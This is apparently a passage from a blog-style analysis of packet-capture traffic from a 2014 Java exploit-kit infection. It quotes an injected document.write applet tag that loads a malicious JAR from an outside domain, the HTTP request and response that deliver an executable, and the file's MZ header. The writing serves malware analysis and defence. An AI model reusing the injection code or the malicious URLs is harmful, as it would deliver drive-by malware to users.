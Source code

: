 If you look closely, you will notice that the request is issued to retrieve the `JSwkYux.html` page, indicating that the Java version string detected for this particular host was in one of the first two ranges above.

Looking further down in the PCAP, I also noticed one of the pages (I'm assuming the above, but I didn't verify), contained the following `document.write` code:

```js
document.write('<app'+'let archive="jadUXNzd.jar" code="yoLSXq.TyIlzQyX"><param val'+'ue="http://pphnq.downsdlowerscars.com/LBIDyj/0c_khG0-lbF1-173l_406wy-70ov_k10_H3/TP0SRQ_h0EYpt09/lUd0Xh-OZ04-UZ-Q0uD1g-0s/SZT0g_3d70YqV-40-UVgT0_YuoO0_KsnJ0t_zUU0_KsU/r0vF-EL0dA/uZ0Dwn_x0V-oXq0pl9X-0Up_k10U/bXY0/Ldk_10u/vI50QW_q302tM9/0N3ij0_vANR0_MSkq0ov/M413lCY0-wPaJ0Bt_ZX0/VG030AM-gZ0eVH0/137qN0fV8/J0VHT/k0M1K/c0Tlp/D0WY_ft0R-NGG0z/PXW0af/gZ0YEN-u0Fk950op_rf/0P9P-g0M/Xf8-0uDSG-0aWq_H01XO-u/8RnedLDhV7.exe?ZI8z8NMxa=9db7d" name="MPtVsaij"/></app'+'let>');
```

I think it is safe to assume that would be the JAR file containing the appropriate exploit for the vulnerable Java version that was detected. Not surprisingly, the following HTTP request followed:

```
GET /GMCs8O-0t1mL0W0av-02t7-R0Haa80/PWCC0Xp/Yl0-0bBp/0aqK/I01y9T/0tHt_X0vxAc/0Ws1E-14LN81-3AP511P_K10uk/b20JbN/I0q9d_G0nN/Bn0_2Ez70jkxl_0djEQ_0tBaG0/mFs30bAB/k0LmHc11-PDt0G3/eT0zi9_u128R/R0t/cKd0b_7xj0-Bem413X/Ap0Pf8-n0Fma_y0v_SK11/7PJJ0_xLXi06g_kV0n/S0H0p/x1L-0WjS80sA_c90GFk_30I6p/A050/RL0P_Poo0S/BL60_DzoH0lN_250r/iq80fhfB0x-WRG0GT5e/jadUXNzd.jar HTTP/1.1
accept-encoding: pack200-gzip, gzip
content-type: application/x-java-archive
User-Agent: Mozilla/4.0 (Windows XP 5.1) Java/1.6.0_10
Host: pphnq.downsdlowerscars.com
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

As you can see, a request was made to download the same `jadUXNzd.jar` file that was listed in the snippet above. Here's the response:

```
HTTP/1.1 200 OK
Date: Fri, 10 Jan 2014 21:34:15 GMT
Content-Type: application/octet-stream; charset=binary
Content-Length: 389120
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Content-Disposition: attachment; filename="up5P7Ufrag.exe"
Content-Transfer-Encoding: binary
Expires: Mon, 26 Jul 1997 05:00:00 GMT
Last-Modified: Fri, 10 Jan 2014 21:33:01 GMT
P3P: CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Pragma: no-cache
Server: Microsoft-IIS/6.0
X-AspNetMvc-Version: 1.0
X-Powered-By: ASP.NET
```

And the magic number to confirm that it is indeed a binary file:

```
MZ@ !L!This program cannot be run in DOS mode.
$d777P77;777777P7777Rich7PEL0@@TYx@.text^.0 .rdata@ @@@.data``@.rsrc@@Ujjjj@@jj@@@@jjjjj@@jjjjjjjjj]UEjjjj@@hL@@:jjjjj
```
